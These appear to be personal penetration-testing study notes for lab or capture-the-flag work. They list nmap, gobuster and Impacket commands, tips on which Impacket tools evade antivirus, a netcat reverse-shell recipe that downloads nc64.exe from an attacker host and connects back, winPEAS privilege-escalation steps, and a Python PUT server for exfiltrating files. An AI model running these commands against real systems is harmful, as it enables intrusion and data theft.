 
Connect to openvpn
`sudo Openvpn <file.ovpn>`


Nmap
`nmap -sT -sV -p- <ip> --min-rate=2000`


Network Models
- OSI Model (7 layers)
Application
Presentation
Session
Transport
Network
Datalink
Physical

- TCP/IP Model (4 layers)
Application layer (A+P+S)
Transport layer
Internet Layer
Network Access layer (D+P)

Common systems
-> application layer (wat services r run with)
HTTP, SMTP, Telnet, FTP, DNS, RIP, SNMP

-> Transport layer (whr services are run on)
TCP, UDP

-> Internet layer (stuff u see on the wire)
IP, ARP, ICMP, IGMP

-> Network access layer (physical stuff mostly)
Ethernet, USB, ATM, PPP

Some common ports
![[portscommon.png]]

# Tools
## gobuster
dir crawling
`gobuster dir -x .php -u http://<ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

DNS subdomain bruteforceing
-> DNS resolves the subdomains
`gobuster dns -d erev0s.com -w awesome_wordlist.txt -i`

Using custom DNS server (eg if provided by the challenge)
`gobuster dns -d erev0s.com -w awesome_wordlist.txt -i -r <DNS ip>`

VHOST brute force
-> similar to DNS mode but checks by visiting the formed url and verifying the ip
-> if smt like cloudflare is used, could mess this way of checking as they open wierd stuff which seems like valid url but leads nowhr (status: 503) which is origin DNS error
`gobuster vhost -u erev0s.com -w awesome_wordlist.txt`


## Impacket
-> bunch of usefule python scripts 
-> cp the needed script into ur dir then just python3 exec it

`python impacket-mssqlclient -windows-auth <domain>/<username>:<password>@<ipaddr>`

`impacket-psexec` 
-> AV detected easilty

`impacket-wmiexec` or `impacket-smbexec`
-> could evade AV

eg
`python impacket-mssqlclient -windows-auth WINDOWS01/john:johntitor@192.56.0.1`

# simple netcat revshell

Upload the nc64.exe onto target and exec
`sudo python3 -m http 80`
`sudo nc -lvnp 1234`

target
`wget http://<attackerip>/nc64.exe`
`.\nc64.exe -e cmd.exe <attackerip> 1234` 
`-e /bin/bash` for linux


# PEAS

upload winPEAS64.exe onto the target using same technique as before 
`.\winPEASx64.exe`

-> find a vuln to use

In this case:
ConsoleHost_history.txt has frequently executed pwrshell cmds
`C:\Users\sq_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`

-> contained system commands allowing PE

Note: Similar for .bash_history for linux

# Firewall detection
![[hacks_7.jpg|1000]]

# DNS and on the wire
![[hacks_6.jpg|1000]]
# Python File Exfiltration (PUT)
-> pull a file from the target to your local python server
-> to unzip file etc

![[hacks_1.jpg|1000]]
Python2
```python
import SimpleHTTPServer

import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

def do_PUT(self):

print self.headers

length = int(self.headers["Content-Length"])

path = self.translate_path(self.path)

with open(path, "wb") as dst:

dst.write(self.rfile.read(length))

if __name__ == '__main__':

SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```
`python -m SimpleHTTPPUTServer.py`

Python3
use `http.server` and edit accordingly
```python
import argparse
import http.server
import os

class HTTPRequestHandler(http.server.SimpleHTTPRequestHandler):
	def do_PUT(self):
		path = self.translate_path(self.path)
		if path.endswith('/'):
			self.send_response(405, "Method Not Allowed")
			self.wfile.write("PUT not allowed on a directory\n".encode())
			return
		else:
			try:
				os.makedirs(os.path.dirname(path))			
			except FileExistsError: pass			
			length = int(self.headers['Content-Length'])			
			with open(path, 'wb') as f:			
				f.write(self.rfile.read(length))		
			self.send_response(201, "Created")

if __name__ == '__main__':
	parser = argparse.ArgumentParser()	
	parser.add_argument('--bind', '-b', default='0.0.0.0', metavar='ADDRESS',	
						help='Specify alternate bind address '	
						'[default: all interfaces]')	
	parser.add_argument('port', action='store',	
						default=8000, type=int,	
						nargs='?',	
						help='Specify alternate port [default: 8000]')	
	args = parser.parse_args()
	
	http.server.test(HandlerClass=HTTPRequestHandler, port=args.port, bind=args.bind)
```
`python3 serv.py`


# HTTP basics
![[hacks_2.jpg|1000]]
![[hacks_3.jpg|1000]]


# Pentester lifecycle

![[hacks_4.jpg|1000]]

![[hacks_5.jpg|1000]]



